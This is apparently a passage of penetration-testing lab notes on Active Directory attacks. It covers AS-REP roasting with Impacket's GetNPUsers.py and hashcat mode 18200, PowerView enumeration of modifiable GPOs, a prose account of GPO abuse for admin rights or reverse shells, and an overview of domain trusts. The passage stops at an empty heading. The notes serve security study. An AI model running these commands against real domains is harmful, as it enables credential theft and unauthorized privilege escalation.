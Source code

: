 With a list of valid users, we can use Get-NPUsers.py from the Impacket toolkit to hunt for all users with Kerberos pre-authentication not required:  
```sh
GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users -outputfile asrep_hashes
```

We can also use PowerView to enumerate users with their UAC value set to `DONT_REQ_PREAUTH`:  
```Powershell
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```

The hashcat mode for ASREP is `18200`  

<br />

## Group Policy Object (GPO) Abuse

A Group Policy Object (GPO) is a virtual collection of policy settings. A GPO has a unique name, such as a GUID.  

You can enumerate GPO information with several tools, including BloodHound and the Get-DomainGPO function from PowerView  

Enumerating Domain User GPO Rights with Get-DomainGPO:
```Powershell
$sid=Convert-NameToSid "Domain Users"
Get-DomainGPO | Get-ObjectAcl | ?{$_.SecurityIdentifier -eq $sid}
```

Converting GPO GUID to Name:
```Powershell
Get-GPO -Guid 7CA9C789-14CE-46E3-A722-83F4097AF532
```

If we select a GPO in BloodHound and scroll down to the Affected Objects on the Node Info tab, we can see that this GPO is applied to one OU, which contains four computer objects  

We could use a tool such as SharpGPOAbuse to take advantage of this GPO misconfiguration by performing actions such as adding a user that we control to the local admins group on one of the affected hosts, creating an immediate scheduled task on one of the hosts to give us a reverse shell, or configure a malicious computer startup script to provide us with a reverse shell or similar.  

<br />

## Domain Trusts Overview

A `trust` is used to establish forest-forest or domain-domain authentication, which allows users to access resources (or perform administrative tasks) in another domain, outside of the main domain where their account resides  

A "transitive" trust means that trust is extended to objects that the child domain trusts. In a non-transitive trust, the child domain itself is the only one trusted  

<br />

## Enumerating Trust 
